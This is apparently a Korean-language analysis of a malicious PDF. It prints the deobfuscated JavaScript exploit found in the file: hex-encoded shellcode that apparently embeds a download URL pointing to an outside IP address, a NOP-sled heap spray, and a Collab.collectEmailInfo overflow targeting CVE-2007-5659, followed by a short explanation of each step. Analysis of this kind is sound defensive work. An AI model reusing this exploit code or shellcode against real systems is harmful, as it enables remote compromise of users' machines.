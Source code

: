 
obj 13에 포함되어 있는 자바스크립트는 위와 같이 난독화가 되어있음. 우선 제일 첫 번째 변수 gwKPaJSHReD0hTAD51qao1s를 보면 hex값이 존재하는 것을 볼 수 있는데 이 공격코드의 핵심으로 유추됨. 해당 자바스크립트의 난독화를 해제해서 해석을 하면 다음과 같음.


```function zfnvkWYOKv()
{
        shellcode = unescape("%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf%u8a97%uefef%u9a10%u64cf%ue3aa%uee85%u64b6%uf7ba%uaf07%uefef%u85ef%ub7e8%uaaec%udccb%ubc34%u10bc%ucf9a%ubcbf%uaa64%u85f3%ub6ea%uba64%u07f7%uefcc%uefef%uef85%u9a10%u64cf%ue7aa%ued85%u64b6%uf7ba%uff07%uefef%u85ef%u6410%uffaa%uee85%u64b6%uf7ba%uef07%uefef%uaeef%ubdb4%u0eec%u0eec%u0eec%u0eec%u036c%ub5eb%u64bc%u0d35%ubd18%u0f10%u64ba%u6403%ue792%ub264%ub9e3%u9c64%u64d3%uf19b%uec97%ub91c%u9964%ueccf%udc1c%ua626%u42ae%u2cec%udcb9%ue019%uff51%u1dd5%ue79b%u212e%uece2%uaf1d%u1e04%u11d4%u9ab1%ub50a%u0464%ub564%ueccb%u8932%ue364%u64a4%uf3b5%u32ec%ueb64%uec64%ub12a%u2db2%uefe7%u1b07%u1011%uba10%ua3bd%ua0a2%uefa1%u7468%u7074%u2F3A%u372F%u2E38%u3031%u2E39%u3033%u352E%u632F%u756F%u746E%u302F%u3530%u4441%u3635%u2F46%u6F6C%u6461%u702E%u7068%u703F%u6664%u613D%u3836%u6534%u6563%u6565%u3637%u6366%u3235%u3732%u3337%u3832%u6136%u3938%u6235%u3863%u3334%u0036");
        nop = unescape("%u9090%u9090");
        //shellcode.length = 245
        nop_length = 20 + shellcode.length;
        while (nop.length < nop_length) nop += nop;		//nop.length = 512
        dummy1 = nop.substring(0, nop_length);
        final_dummy = nop.substring(0, nop.length-nop_length);
        while(final_dummy.length + nop_length < 0x40000) final_dummy = final_dummy + final_dummy + dummy1;

        payload = new Array();

        for ( i = 0; i < 2020; i++ ) payload[i] = final_dummy + shellcode;

        function overflow(loop, ascii_0x9)
        {
                var payload2 = "";

                while (--loop >= 0) payload2 += ascii_0x9;
                return payload2;
        }

        Collab.collectEmailInfo({msg:overflow(4096, unescape("%u0909%u0909"))});}
```

난독화된 자바스크립트는 변수 및 함수명만 난독화가 되어 있고, 난독화된 자바스크립트를 해석하면 위와 같음.

- 261,879개의 NOP(0x90) 뒤에 쉘코드를 붙여서 NOP Sled 공격 코드 구성
- NOP Sled 공격코드를 2020개를 구성하여 페이로드 구성
- Collab.collectEmailInfo() 함수의 취약점(CVE-2007-5659)을 이용하여 Heap Spray 공격을 수행하고, 공격 시 Heap 영역에 할당한 쉘코드를 실행
